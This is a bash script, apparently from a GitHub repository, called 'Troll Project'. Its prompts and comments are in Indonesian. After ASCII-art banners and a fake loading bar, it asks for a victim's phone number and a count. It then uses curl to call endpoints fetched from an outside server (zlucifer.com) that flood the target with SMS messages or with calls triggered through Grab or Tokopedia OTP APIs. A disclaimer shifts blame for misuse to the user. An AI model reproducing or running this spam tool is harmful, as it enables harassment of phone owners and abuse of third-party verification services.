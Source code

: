 # h
#!/bin/bash #/////////////////////////////////////////////////////////////////////////////// #/////////////////////////////////////////////////////////////////////////////// #////                       _            _  __                              //// #////                      | |          (_)/ _|                             //// #////                   ___| |_   _  ___ _| |_ ___ _ __                     //// #////                  |_  / | | | |/ __| |  _/ _ \ '__|                    //// #////                   / /| | |_| | (__| | ||  __/ |                       //// #////                  /___|_|\__,_|\___|_|_| \___|_|                       //// #////                                                                       //// #/////////////////////////////////////////////////////////////////////////////// #/////////////////////////////////////////////////////////////////////////////// #PERINGATAN : KESALAHAN ATAU KEJAHATAN ADALAH TANGGUNG JAWAB DARI PEMAKAI #GUNAKAN TOOLS UNTUK KEBAIKAN JANGAN DISALAH GUNAKAN :) troll(){     clear     sleep 0.03     echo "         _ "     sleep 0.03     echo "        /_)  _.-===-._ "     sleep 0.03     echo "       /  .; '_-.'- .'.     _ "     sleep 0.03     echo "  __ _/  /.'\ ._  '. , \   (_\ "     sleep 0.03     echo " /\_( \  |.'.-._'- .  '|     \ "     sleep 0.03     echo " |_)  /  |/'    ''--''\|     _\__ "     sleep 0.03     echo " \_)_|  /'  ._.   ._.  '\   / )(_\ "     sleep 0.03     echo " )/  (  \_      _      _/   \' (_| "     sleep 0.03     echo " /   /    \           /     _) (_/ "     sleep 0.03     echo " |   '',_ _'._'---'_.'_ _,.'    | \ "     sleep 0.03     echo " \    /  \ \  '''''  / / /     /   \ "     sleep 0.03     echo "  \_.'    \ \       / /  |   .' "     sleep 0.03     echo "   '--.,   \ \     / /  _;-'' "     sleep 0.03     echo "       '|   \ \   / /   | "     sleep 0.03     echo "       .;----'''''''----;. "     sleep 0.03     echo "      /(                 )\ "     sleep 0.03     echo "      \_''-------------''_/ "     sleep 0.03     echo "      | '';-----;-----;'' | "     sleep 0.03     echo "      | / : \ / : \ / : \ | "     sleep 0.03     echo "      |V.','.V.','.V.','.V| "     sleep 0.03     echo "      \'./_\.;./_\.;./_\.'/ "     sleep 0.03     echo "       ';..___________..;' "     sleep 0.03     echo " ============================="     sleep 2     echo " ==      Troll Project      =="     sleep 0.7     echo " =============================" } load(){     echo -e "\n"     bar=" >>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>> "     barlength=${#bar}     i=0     while((i&lt;100)); do         n=$((i*barlength / 100))         printf "\e[00;32m\r[%-${barlength}s]\e[00m" "${bar:0:n}"         ((i += RANDOM%5+2))         sleep 0.2     done } get_sms=$(curl -s http://zlucifer.com/api/hackbae.php?request=sms) get_call=$(curl -s http://zlucifer.com/api/hackbae.php?request=call) mulai (){     echo "Gunakan Troll Project Lagi?"     echo "y/n?"     echo     read lagi     if [ $lagi = "y" ]; then             spam     else             echo "Terimakasih sudah menggunakan Troll project"     fi } #spam spam(){     clear     troll     echo     echo "[1] Spam SMS"     echo "[2] Spam Telp"     echo "[3] Close Troll Project"     echo     echo "1/2/3?"     read pilih     if [ $pilih = "1" ]; then             echo "Troll Spam SMS"             #function spam             echo             echo "Silahkan masukan nomor telp target"             echo contoh 0812345678             read target # masukin no telp             echo             echo "Berapa sms yang mau dikirim?"             read paket             echo             echo Apakah nomor $target "dan SMS dikirim "$paket" sudah benar?"             echo y/n?             read confirm             echo             if [ $confirm = "y" ]; then                     load                     clear                     echo Melakukan spam SMS ke nomor $target                     echo                     echo "Jangan close aplikasi sebelum spam selesai"                     echo "========================================"                     target_do=$get_sms'/sms.php?nomor='$target'&amp;paket='$paket                     CURL_RESPONSE=`curl -s -o /dev/null -w "%{http_code}" $target_do`                     echo " Gunakan tools dengan bijak"                     echo                     echo " Love u always "                     echo " -zLucifer"                     echo "======================================="             else                     echo "Kesalahan"             fi         mulai     elif [ $pilih = "2" ]; then             echo "Troll Spam Call"             #function spam             echo             echo "Silahkan masukan nomor telp target"             echo contoh 0812345678             read target # masukin no telp             echo             echo "Gunakan API Grab/Toped?"             echo "[1] GRAB"             echo "[2] TOPED"             echo "1/2?"             read api             if [ $api = "1" ]; then                   api_spam="grab"             else                   api_spam="toped"             fi             echo Apakah nomor $target dan spam menggunakan $api_spam "sudah benar?"             echo y/n?             read confirm             echo             if [ $confirm = "y" ]; then                   load                   clear                   echo Melakukan spam call ke nomor $target                   echo                   echo "Jangan close aplikasi sebelum spam selesai"                   echo "========================================"                   cek_target=`curl -s $get_call/call.php?nomor=$target"&amp;method="$api_spam`                   echo -e $cek_target                   echo " Gunakan tools dengan bijak"                   echo                   echo " Love u always "                   echo " -zLucifer"                   echo "========================================"             else                   echo Kesalahan, silahkan coba lagi             fi         mulai     elif [ $pilih = "3" ]; then         echo "Terimakasih sudah menggunakan Troll project"         close     else         clear         echo "Kesalahan"         mulai     fi } close(){     exit } clear echo "Loading.." load clear troll echo Selamat datang kak, Siapa nick kaka? #tulisan keluar read nick #membaca yang ditulis clear troll echo Selamat datang $nick ":)" echo echo "Mulai troll project?" echo "y/n?" read mulai if [ $mulai = "y" ]; then       spam else       close fi
